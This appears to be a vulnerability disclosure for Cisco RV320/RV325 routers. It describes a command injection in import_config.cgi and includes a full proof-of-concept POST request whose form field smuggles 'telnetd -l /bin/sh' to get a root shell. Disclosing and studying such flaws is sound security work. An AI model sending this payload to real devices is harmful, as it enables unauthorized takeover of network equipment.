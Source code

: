 # Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

Cisco RV320 Dual Gigabit WAN VPN Router

Cisco RV325 Dual Gigabit WAN VPN Router

**Affected firmware version:**

1.5.1.13 (the latest release version)

**Firmware download address:** 

[https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13](https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13 "https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13")

# Overview

`Cisco RV32x Series VPN Routers` were detected with a `command injection vulnerability`. The vulnerability is caused by lax verification of user input. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerability was detected in the **`/usr/local/EasyAccess/www/cgi-bin/import_config.cgi`** binary.

In the `main` function. The first two fields of form-data in the body of the POST request message are read through two sets of `fgets` functions (each reading four lines, as a field of form-data). When the first field of form-data is `1`, the content of the second field after the `;` is concatenated into the `acStack1144` variable and passed to the `upgradefromusb` function as an argument.

![](./pic/32.png)

In the `upgradefromusb` function. First, use `FUN_120003860` here to add `\` before `(` and `)` in the contents of the passed argument (no effect on the exploitation). The processed content is then concatenated directly into the `acStack808` variable and executed as a parameter for `system` without any checks.

![](./pic/33.png)

Above all, here is a `remote command execution` vulnerability. The attacker can inject arbitrary commands after the `;` in the second field of form-data in the body of the POST request message and execute them.

# Poc

Send the following `POST` request message (use `${IFS}` instead of Spaces).

```
POST /cgi-bin/import_config.cgi HTTP/1.1
Host: 192.168.1.1
Cookie: mlap=ZfRSjTJvVhNsYLzAUrxDcg==
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------16897455311731203775484527323
Content-Length: 330
Origin: https://192.168.1.1
Referer: https://192.168.1.1/sys_setting.htm
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------16897455311731203775484527323
Content-Disposition: form-data; name="submitrestoreconfig"

1
-----------------------------16897455311731203775484527323
Content-Disposition: form-data; name="USBconfigfile"

USB1;;telnetd${IFS}-l${IFS}/bin/sh;
-----------------------------16897455311731203775484527323--
```

# Attack Demo

Follow the POC above to make the request.

![](./pic/34.png)

After the attack is completed, we successfully logged into the device remotely and got the `root shell` of the device.

![](./pic/35.png)

